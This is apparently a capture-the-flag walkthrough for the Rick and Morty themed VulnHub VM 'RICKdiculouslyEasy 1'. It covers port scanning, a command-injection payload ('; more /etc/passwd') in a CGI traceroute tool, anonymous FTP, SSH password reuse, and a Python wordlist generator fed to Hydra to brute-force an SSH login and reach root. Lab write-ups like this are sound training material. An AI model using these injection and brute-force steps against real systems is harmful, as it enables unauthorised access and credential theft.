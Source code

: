 ## RICKdiculouslyEasy 1 VulnHub VM walkthrough

RICKdiculouslyEasy 1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/

```
This is a fedora server vm, created with virtualbox.
It is a very simple Rick and Morty themed boot to root.
There are 130 points worth of flags available (each flag has its points recorded with it), you should also get root.
It's designed to be a beginner ctf, if you're new to pen testing, check it out!
```

## Solution

#### 1. Sudo Netdiscover
![](Assets/1.PNG)
> IP address: 192.168.1.10

#### 2. Port scan: Nmap -sC -sV -Pn -A -p- 192.168.1.10
![](Assets/2.PNG)
![](Assets/2.1.PNG)
> 21 -> ftp -> vsftpd 3.0.3 -> anonymous
> 22 -> ssh
> 80 -> Apache httpd 2.4.27
> 9090 -> Cockpit webservice
> 13337 -> unknown
> flag (10 pt) => total 10 points
> 22222 -> ssh -> OpenSSH 7.5 (protocol 2.0)
> 60000 > unknown

#### 3. Nikto: Nikto -h 192.168.1.10
![](Assets/3.PNG)
> passwords/ directory
> icons/ directory

#### 4. Browser > http://192.168.1.10/passwords/
![](Assets/4.PNG)
> FLAG.txt
> passwords.html

#### 5. Browser > http://192.168.1.10/passwords/FLAG.txt
![](Assets/5.PNG)
> Got Flag (10 pt) = total points 20

#### 6. Browser > http://192.168.1.10/passwords.html and page source code
![](Assets/6.PNG)
![](Assets/7.PNG)
> password > winter

#### 7. Browser > http://192.168.1.10/icons/
![](Assets/8.PNG)
> nothing special other than directory listing

#### 8. Browser > http://192.168.1.10/robots.txt
![](Assets/9.PNG)
> /cgi-bin/root_shell.cgi
> /cgi-bin/tracertool.cgi

#### 9. Browser > view-source:http://192.168.1.10/cgi-bin/root_shell.cgi
![](Assets/10.PNG)
> nothing useful

#### 10. Browser > http://192.168.1.10/cgi-bin/tracertool.cgi
![](Assets/11.PNG)
![](Assets/12.PNG)
> Vulnerable to command injection
![](Assets/13.PNG)
> cat command doesn't work. Can use 'more', 'less','head' or 'tail' instead

#### 11. Payload > ; more /etc/passwd
![](Assets/14.PNG)
> Note users 'morty', 'ricksanchez' and 'summer'

#### 12. Ftp 192.168.1.10 > anonymous:anonymous 
![](Assets/15.PNG)
> logged in
![](Assets/16.PNG)
> ftp://192.168.1.10 > Flag.txt (10 pt) => total 30 points

#### 13. ssh 192.168.1.10 22
![](Assets/17.PNG)
> Not accessible

#### 14. Browser > http://192.168.1.10:9090
![](Assets/18.PNG)
> Got flag (10 pt) => total 40 points

#### 15. Try winter password for users found in step 11 via SSH on 22222 port
![](Assets/19.PNG)
> Didn't work
![](Assets/20.PNG)
> Worked for user 'Summer'
> Got flag (10 pt) => total 50 points
![](Assets/21.PNG)
> password for unzipping journal.txt.zip is in safe_password.jpg
![](Assets/22.PNG)
> Pull jpg file in host machine
![](Assets/23.PNG)
> Got safe password
![](Assets/24.PNG)
> Got Flag (20 pt) => total 70 points
![](Assets/25.PNG)
![](Assets/26.PNG)
> Used flag in journal.txt as argument for safe
> Got next flag (20 pt) => total 90 points
> Got Pattern for RickSanchez password

#### 16. Create python script for all possible password combinations using the clue to feed Hydra:
```
def main():
    LETTERS = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    DIGITS = '0123456789'
    BAND_WORDS = ['The', 'Flesh', 'Curtains']
    with open('rickpwd.txt', 'w') as f:
        for letter in LETTERS:
            for digit in DIGITS:
                for word in BAND_WORDS:
                    f.write('{}{}{}\n'.format(letter, digit, word))
        f.flush()
if __name__ == '__main__':
    main()
```
> rickpwd.txt created

#### 17. Hydra -l RickSanchez -P rickpwd.txt 192.168.1.10 ssh -s 22222
![](Assets/27.PNG)
> Password for RickSanchez user > P7Curtains

#### 18. ssh RickSanchez@192.168.1.10 -p 22222
![](Assets/28.PNG)
![](Assets/29.PNG)
> Got root and Flag (30 pt) => total 120 points

#### 19. Analyzing remaining ports: telnet 192.168.1.10 13337
![](Assets/30.PNG)
> Flag already found

#### 20. nc 192.168.1.10 60000
![](Assets/31.PNG)
> Got Flag (10 pt) => total 130 points

> Got all 130/130 points and owned root.
